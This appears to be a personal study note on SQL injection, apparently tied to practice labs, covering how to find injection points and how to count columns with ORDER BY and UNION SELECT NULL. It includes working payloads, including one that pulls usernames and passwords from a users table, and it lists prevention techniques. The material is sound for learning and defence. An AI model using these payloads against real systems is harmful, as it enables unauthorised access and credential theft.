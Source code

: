 #Red 
1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using [[DNS]] and HTTP requests to exfiltrate data
Certainly! Here's the updated section with a detailed explanation on determining the number of columns required for UNION-based SQL injection:

## Basic SQL Injection

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - [[API#REST API|RESTful]] and [[API#SOAP API|SOAP API]] parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
- Enter a single quote (`'`) in input fields or URL parameters.
- If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
- Example:
```
Login Username: admin'
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin'';
```

2. **Comment Injection Test**:
- Use SQL comments (`--`, `#`) to bypass parts of the query.
- Example:
```
Login Username: admin' -- 
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

3. **Error-Based Testing**:
- Inject known bad inputs and look for database error messages.
- Example:
```
Product ID: 1'
```
- SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
- Possible error message:
```
SQL syntax error near '1''
```

#### Practice Labs
- [[5. SQLI Labs#**SQL Injection 1**|Lab]]: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Determining the Number of Columns Required

1. **Injecting ORDER BY Clauses:**
- Use `ORDER BY` to determine the number of columns by incrementing the column index until an error occurs.
- Example:
```
Product ID: 1 ORDER BY 1 -- 
Product ID: 1 ORDER BY 2 -- 
Product ID: 1 ORDER BY 3 -- 
```
- Continue increasing the number until an error is returned. The last successful number indicates the number of columns.

2. **Using NULLs in UNION SELECT:**
- Inject a UNION SELECT statement with increasing numbers of NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL -- 
Product ID: 1 UNION SELECT NULL, NULL -- 
Product ID: 1 UNION SELECT NULL, NULL, NULL -- 
```
- Adjust the number of `NULL` values until no error is returned.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns:**
- Inject a UNION SELECT statement with NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL, NULL, NULL
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
```
- Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types:**
- Replace NULL with values matching the data type of each column.
- Example:
```
Product ID: 1 UNION SELECT 1, 'string', NULL
```

3. **Extract Data:**
- Once the number of columns and their data types are known, extract data from another table.
- Example:
```
Product ID: 1 UNION SELECT username, password, NULL FROM users
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

#### Portswigger Labs

### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate [[SQL]] code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.

By following these steps, you can determine the number of columns required for a successful UNION-based SQL injection, allowing you to craft more effective injection queries.